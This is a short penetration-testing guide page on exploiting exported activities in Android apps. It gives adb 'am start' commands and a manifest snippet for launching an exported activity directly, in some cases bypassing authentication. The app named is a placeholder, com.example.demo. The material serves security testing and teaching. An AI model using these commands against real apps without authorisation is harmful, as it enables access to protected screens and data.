 ```yaml
---
title: "Exploiting exported activities"
weight: 8
description: "Learn how to identify and exploit exported activities in Android applications during penetration testing. This guide covers bypassing authentication mechanisms and accessing sensitive information through improperly exported activities."
---
```


# Exploiting exported activities

If an activity involving sensitive information is exported, it could potentially bypass authentication mechanisms, allowing unauthorized access.

```sh
adb shell am start -n com.example.demo/com.example.demo.MainActivity
```

You need to start the activity with the intent filtered declared:

```xml
<activity android:name="com.example.demo.HiddenActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.QUICK_VIEW"/>
        <category android:name="android.intent.category.INFO"/>
    </intent-filter>
</activity>
```

```sh
adb shell am start -n com.example.demo/.HiddenActivity -a android.intent.action.QUICK_VIEW -c android.intent.category.INFO
```
